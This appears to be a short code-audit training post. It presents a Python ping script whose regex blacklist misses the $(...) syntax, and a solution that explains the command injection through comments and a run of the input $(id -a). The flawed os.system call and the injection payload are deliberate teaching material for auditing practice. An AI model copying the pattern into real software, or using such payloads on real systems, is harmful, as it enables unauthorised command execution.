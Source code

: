 ```yaml
---

title: joernchen-04
author: raxjs
tags: [python]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://code-audit-training.gitlab.io/" >}}

# Code
{{< code language="python"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
import re
import os
import fileinput

print("Gimme a host: " , end='',flush = True)
for line in fileinput.input():
    if re.search('[;\'&{}<>|]', line):
        print("no thanks!")
        exit()
    print("[*] pinging in progress")
    os.system("ping -c 2 %s" % line )
    print("[*] pinging done")
    print("Gimme a host: " , end='',flush = True)

{{< /code >}}

# Solution
{{< code language="python" highlight="" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
import re
import os
import fileinput

print("Gimme a host: " , end='',flush = True)
for line in fileinput.input():
    # 1) line is user input, the regex
    #    tries to sanitize but misses at least one option
    if re.search('[;\'&{}<>|]', line):
        print("no thanks!")
        exit()
    print("[*] pinging in progress")
    # 2) command injection here
    #    for example:  line = $(id -a) will pass the regex above
    #    and executes a command
    os.system("ping -c 2 %s" % line )
    print("[*] pinging done")
    print("Gimme a host: " , end='',flush = True)


# $ printf "\$(id -a)\n" | python aaa.py
# Gimme a host: [*] pinging in progress
# ping: groups=1000(user),108(vboxusers),209(cups),973(libvirt),991(lp),992(kvm),1001(sudo): Name or service not known
# [*] pinging done
# Gimme a host: %



{{< /code >}}